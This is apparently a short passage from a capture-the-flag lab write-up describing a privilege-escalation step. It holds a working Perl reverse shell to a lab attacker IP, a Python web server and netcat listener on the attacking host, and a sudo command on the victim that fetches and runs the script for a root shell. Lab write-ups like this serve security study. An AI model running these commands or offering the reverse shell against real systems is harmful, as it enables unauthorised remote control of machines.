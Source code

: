 ```perl
use Socket;
$i="10.10.16.9";
$p=4445;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
open(STDOUT,">&S");
open(STDERR,">&S");
exec("/bin/bash -i");};
```

- If you still have the `www-data` shell open be sure to switch the `port`.

- On Host:
- Terminal 1:

```bash
python -m http.server
```

- Terminal 2:

```bash
rlwrap nc -lvnp 4445
```

On Victim:

```bash
sudo /usr/bin/binary http://10.10.16.9:8000/perl.pl lDnxUysaQn
```

- Voila! Root!

![image](https://0xc0rvu5.github.io/docs/assets/images/20230510190103.png)

#hacking
